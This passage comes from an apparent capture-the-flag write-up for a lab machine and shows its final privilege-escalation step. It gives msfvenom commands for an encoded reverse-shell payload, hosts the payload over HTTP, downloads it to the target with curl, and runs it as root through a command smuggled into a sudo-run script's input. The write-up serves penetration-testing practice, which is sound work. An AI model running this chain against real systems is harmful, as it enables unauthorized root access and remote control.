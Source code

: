 ![root_test](./networked/root_test.png)

Nice! the PoC worked. Now generate a new shell, host it, and have the target download and execute it as `root`:

````bash
# on kali, make a new payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=9999 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.root.elf
# on kali, host payload
python3 -m http.server 8080
# on kali, listen for callback
nc -nvlp 9999
# on target, in user guly shell, download new payload & make it executable
curl -s -o /tmp/bubba-root-elf http://10.10.14.17:8080/bubba.root.elf
chmod +x /tmp/bubba-root-elf
# on target, in user guly shell, trigger payload (will bypass regex filter in changename.sh)
sudo -u root /usr/local/sbin/changename.sh
# input for script:
test /tmp/bubba-root-elf
blah
blah
blah
````

And that gives `root.txt`:

![root](./networked/root.png)

